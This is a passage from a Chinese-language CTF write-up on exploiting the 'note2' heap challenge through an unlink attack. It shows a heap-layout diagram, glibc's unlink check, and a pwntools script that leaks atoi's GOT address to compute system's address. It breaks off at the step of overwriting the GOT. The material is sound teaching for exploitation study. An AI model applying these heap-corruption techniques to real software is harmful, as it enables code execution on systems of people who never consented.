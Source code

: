```
                                   +-----------------+
                                   |    0x61         |  chunk 0
                                   +-----------------+
                                   |    'a *8        |
                 ptr[0]----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prev_size    |
                                   +-----------------+  low addr
                                           图2
```

该覆盖主要是为了释放chunk2的时候可以后向合并（合并低地址），对chunk0中虚拟构造的chunk进行unlink。即将要执行的操作为unlink(ptr[0])，同时我们所构造的fakebk和fakefd满足如下约束

```c
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                      \
```

unlink成功执行，会导致ptr[0]所存储的地址变为fakebk，即ptr-0x18。

#### 获取system地址

代码如下

```python
# overwrite the chunk0(which is ptr[0]) with got atoi
atoi_got = note2.got['atoi']
content = 'a' * 0x18 + p64(atoi_got)
editnote(0, 1, content)
# get the aoti addr
shownote(0)

sh.recvuntil('is ')
atoi_addr = sh.recvuntil('\n', drop=True)
print atoi_addr
atoi_addr = u64(atoi_addr.ljust(8, '\x00'))
print 'leak atoi addr: ' + hex(atoi_addr)

# get system addr
atoi_offest = libc.symbols['atoi']
libcbase = atoi_addr - atoi_offest
system_offest = libc.symbols['system']
system_addr = libcbase + system_offest

print 'leak system addr: ', hex(system_addr)
```

我们修改ptr[0]的内容为 ptr 的地址-0x18，所以当我们再次编辑 note0 时，可以覆盖ptr[0]的内容。这里我们将其覆盖为atoi的地址。
这样的话，如果我们查看note 0的内容，其实查看的就是atoi的地址。

之后我们根据 libc 中对应的偏移计算出 system 的地址。

#### 修改atoi got
